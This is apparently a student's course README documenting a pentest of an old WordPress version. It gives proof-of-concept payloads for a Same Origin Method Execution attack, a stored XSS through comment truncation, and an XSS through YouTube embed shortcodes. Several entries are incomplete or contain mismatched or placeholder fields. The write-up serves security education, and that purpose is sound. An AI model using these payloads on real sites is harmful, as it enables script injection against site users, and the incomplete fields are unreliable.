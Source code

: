 # CodePathweek7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

Exploit 1. Upload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit1.gif
  - [ ] Steps to recreate: 
        1. Reply to an existing comment
        2. Using Javascript
            <button onclick="fire()">Click</button>
            <script>
            function fire() {
             open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload /plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
              setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
            }
            </script>
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
    
Exploit 2. Unauthenticated Stored Cross Site-Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross Site-Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit2.gif
  - [ ] Steps to recreate: 
        1. Create a new post
        2. In the post body, write this code:
            a) It must contain an XSS injection content, followed by at least 64 kilobytes of text
                Example: 
                    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
                    style=position:absolute;left:0;top:0;width:5000px;height:5000px
                    AAAAAAAA.. (for 64 kb)....AAAAAA
        3. Save and reload the site
        4. WordPress will truncate the comment allowing the injected content to be posted on the site
            a) A pop up message of "Hello World" will pop up on mouse move
  - [ ] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/changeset/32299)
    
Exploit 3. Application Denial of Service (DoS)
  - [ ] Summary: 
    - Vulnerability types: 4.2
    - Tested in version: 4.9.4
    - Fixed in version: unpacthed
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit3.gif
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 3](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
    
Expoint 4: CVE-2017-6817 Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
        1. Create a new post
        2. In the post body, write this code:
            [embed src='https://youtube.com/embed/12345\x3csvg onload=alert("No Body Is Safe!")\x3e'][/embed]
        3. Save your changes, when you go to the post on the site you will see an embeded link
        4. Click the embeded link and a alert window will pop up with the message “No Body Is Safe!”
  - [ ] Affected source code:
    - [Link 4](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Oleksandr Bihary

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

